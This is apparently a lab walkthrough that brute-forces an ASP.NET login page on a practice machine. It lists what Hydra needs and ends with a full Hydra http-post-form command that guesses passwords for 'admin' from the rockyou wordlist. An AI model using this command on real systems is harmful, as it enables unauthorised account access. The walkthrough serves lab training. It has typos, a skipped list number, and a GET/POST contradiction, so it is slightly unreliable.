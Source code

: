 Directory/Path to Login Page

<img width="924" alt="7" src="https://user-images.githubusercontent.com/28839345/165507806-5a447eef-968f-4464-84c9-5783b6067273.png">

Request Body for Username/Password

<img width="924" alt="8" src="https://user-images.githubusercontent.com/28839345/165507810-a829e198-2b6d-447e-b8e2-722f48a3e13a.png">

The way to identify the Failed attampths will be the phrase 'Login failed'

<img width="1207" alt="9" src="https://user-images.githubusercontent.com/28839345/165507814-c2b45127-77a7-4068-bdc4-c152a4f81f1b.png">

To brute force successfully  a log in page using hydra you need to privide Hydra with the following:

1. Login or Wordlists for Usernames 
3. Password or Wordlist for Passwords 
4. IP address or Hostname
5. HTTP Method (POST/GET)
6. Directory/Path to Login Page
7.  Request Body for Username/Password
8. A way to Identify Failed Attempts

1. Provide hydra with the login username 'admin'
2. The wordlist for passwords will be '/usr/share/wordlists/rockyou.txt'
3. IP address will be the IP of the MACHINE running the web server
4. The HTTP method is GET
5. The directory path will be '/Account/login.aspx'
6. The request body will be `__VIEWSTATE=23ze5FbqcNXSMRY3uH%2Fyu34CLzAN0shWj49xxziH%2BbtuLIH%2B2MRFh0cxN5DDYpdbc%2Fsc3hiw%2Bk4%2B5Tr85i%2BWizg0GKHTg7Bsm0byBSuHo9%2BHkuwuBB2Eo%2BJeIZLEDmHQAMLk9NXRdZt7XRsPcfdK0WS65eNnsYyueqe0ZhWA0cPMdj1ljSWuHJkZWpwDWlfCkBRhryNe6%2BpBtctz5d%2FIOp%2FDwk1MlZwmozB3keq%2BfQxzyD7U9b7yzbGIs42s5jKe%2F25DuzmLulJfp9Pjr6n5pO6Mwu4r8%2FI8gv6PhmOTi3JIYzNc801B7UyLtbj8LRmCDf0EftsfX0PNS3jp8DWDLM9Grp27YQMt34SfY6jAqm8trIpx&__EVENTVALIDATION=ECHptmyz5l44sYbADg2mgle7nfU2jCpqzDJgSXeGbjWZ7vKuKb6tTBie18%2BG5mJkfJI%2FetapdZ0KuVcd1kb%2BetkuPQE55X1KHvJ46kb9NW9f6gMsWr%2BIdG4Wo5LFPO1iOKrYG8pULOKdhUzT0ghnPsxZdo3KB3J7rTUfcebT7OKWDvHH&ctl00%24MainContent%24LoginUser%24UserName=testUsername&ctl00%24MainContent%24LoginUser%24Password=testPassword&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in`
7. The way to identify the Failed attampths will be the phrase 'Login failed'

Finall hydra command: 

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.101.85 http-post-form 
"/Account/login.aspx:__VIEWSTATE=23ze5FbqcNXSMRY3uH%2Fyu34CLzAN0shWj49xxziH%2BbtuLIH%2B2MRFh0cxN5DDYpdbc%2Fsc3hiw%2Bk4%2B5Tr85i%2BWizg0GKHTg
7Bsm0byBSuHo9%2BHkuwuBB2Eo%2BJeIZLEDmHQAMLk9NXRdZt7XRsPcfdK0WS65eNnsYyueqe0ZhWA0cPMdj1ljSWuHJkZWpwDWlfCkBRhryNe6%2BpBtctz5d%2FIOp%2FDwk1MlZwmozB3k
eq%2BfQxzyD7U9b7yzbGIs42s5jKe%2F25DuzmLulJfp9Pjr6n5pO6Mwu4r8%2FI8gv6PhmOTi3JIYzNc801B7UyLtbj8LRmCDf0EftsfX0PNS3jp8DWDLM9Grp27YQMt34SfY6jAqm8trIpx&__EV
ENTVALIDATION=ECHptmyz5l44sYbADg2mgle7nfU2jCpqzDJgSXeGbjWZ7vKuKb6tTBie18%2BG5mJkfJI%2FetapdZ0KuVcd1kb%2BetkuPQE55X1KHvJ46kb9NW9f6gMsWr%2BIdG4Wo5LFPO1iOK
rYG8pULOKdhUzT0ghnPsxZdo3KB3J7rTUfcebT7OKWDvHH&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%
24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"`
